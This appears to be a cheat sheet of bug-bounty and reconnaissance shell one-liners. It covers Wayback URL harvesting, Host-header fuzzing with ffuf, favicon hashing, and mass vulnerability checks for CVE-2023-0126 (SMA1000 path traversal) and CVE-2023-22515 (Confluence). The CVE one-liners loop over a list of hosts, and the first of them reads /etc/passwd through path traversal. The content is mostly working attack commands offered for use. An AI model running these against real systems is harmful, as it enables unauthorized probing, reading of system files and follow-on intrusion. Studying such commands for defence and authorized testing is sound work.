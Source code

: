 ## OneLiner
```
cat subdomains.txt | waybackurls | httpx -mc 200 -ct | grep application/json
```

────────────────────────────────────────────────────────────────────────

# Fuzz with 127.0.0.1 as Host header 

## Installation Requirements
1. FFUF  : https://github.com/ffuf/ffuf

## OneLiner
```
ffuf -u https://target[.]com/FUZZ -H “Host: 127.0.0.1” -w /home/user/path/to/wordlist.txt -fs <regular_content_length>
```

────────────────────────────────────────────────────────────────────────

# CVE-2023-0126 Pre-authentication path traversal vulnerability in SMA1000

## OneLiner
```
cat file.txt| while read host do;do curl -sk "http://$host:8443/images//////////////////../../../../../../../../etc/passwd" | grep -i 'root:' && echo $host "is VULN";done
```

────────────────────────────────────────────────────────────────────────

# Get Favicon Hash of your target Domain

## OneLiner
```
curl -s -L -k https://TARGET.COM/favicon.ico | python3 -c 'import mmh3, sys, codecs; print(mmh3.hash(codecs.encode(sys.stdin.buffer.read(),"base64")))'
```

────────────────────────────────────────────────────────────────────────

# CVE-2023-22515 One Liner Confluence Data Center & Server: Privilege Escalation

## OneLiner
```
cat file.txt | while read host do; do curl -skL "http://$host/setup/setupadministrator.action" | grep -i "<title>Setup System Administrator" && echo $host "Vulnerable"; done
```

